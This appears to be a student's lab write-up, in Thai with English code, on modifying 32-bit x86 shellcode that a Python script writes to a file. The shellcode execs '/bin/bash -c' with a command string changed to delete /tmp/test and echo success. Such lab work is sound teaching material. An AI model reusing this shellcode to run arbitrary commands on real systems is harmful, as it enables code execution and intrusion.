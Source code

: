 
- python3 shell_32.py ใช้สร้าง codefile_32 ที่บรรจุ shellcode ไว้
- make สร้าง a32.out ที่เป็น executable file จาก codefile_32 โดยใช้ gcc
- เมื่อ execute a32.out จะแสดงผลลัพธ์ตามภาพ
---



#### shellcode_32.py after modify
```
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/rm -f /tmp/test && echo success                      *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

content = bytearray(200)
content[0:] = shellcode

# Save the binary code to file
with open('codefile_32', 'wb') as f:
  f.write(content)

```
---
- ก่อนถึง * ต้องมี 58 character
```
modify code เป็น "/bin/rm -f /tmp/test && echo success                      *"
- เมื่อลบสำเร็จจะไป echo sucess
```

![alt text](image-5.png)
